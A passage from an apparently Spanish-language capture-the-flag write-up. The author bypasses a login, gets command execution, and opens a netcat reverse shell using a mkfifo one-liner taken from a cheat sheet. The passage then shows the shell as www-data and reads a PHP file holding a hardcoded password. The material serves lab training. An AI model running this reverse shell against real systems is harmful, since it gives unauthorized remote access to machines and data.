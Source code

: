 
Encontramos /home.php en el que bypaseamos el login directamente y podemos ejecutar comandos. Intentaremos establecer una revershell para acceder a la máquina.

Desde <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentest Monkey</a> elegimos una de ellas, indicamos nuestra IP y el puerto por el que nos ponemos en escucha mediante netcat y lo ejecutamos.

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

Tenemos acceso:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.8.4.179] from (UNKNOWN) [10.10.172.6] 33964
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
home.jpg
home.php
image.png
index.html
index.php.bak
key_rev_key
validate.php
```

Abrimos key_rev_key y nos reporta la clave.

Además en validate.php nos reporta en texto claro la contraseña de Charlie.

```bash
$ ls
home.jpg
home.php
image.png
index.html
index.php.bak
key_rev_key
validate.php
$ cat validate.php
<?php
        $uname=$_POST['uname'];
        $password=$_POST['password'];
        if($uname=="charlie" && $password=="??????"){
                echo "<script>window.location='home.php'</script>";
        }
        else{
                echo "<script>alert('Incorrect Credentials');</script>";
                echo "<script>window.location='index.html'</script>";
        }
?>$ 

```
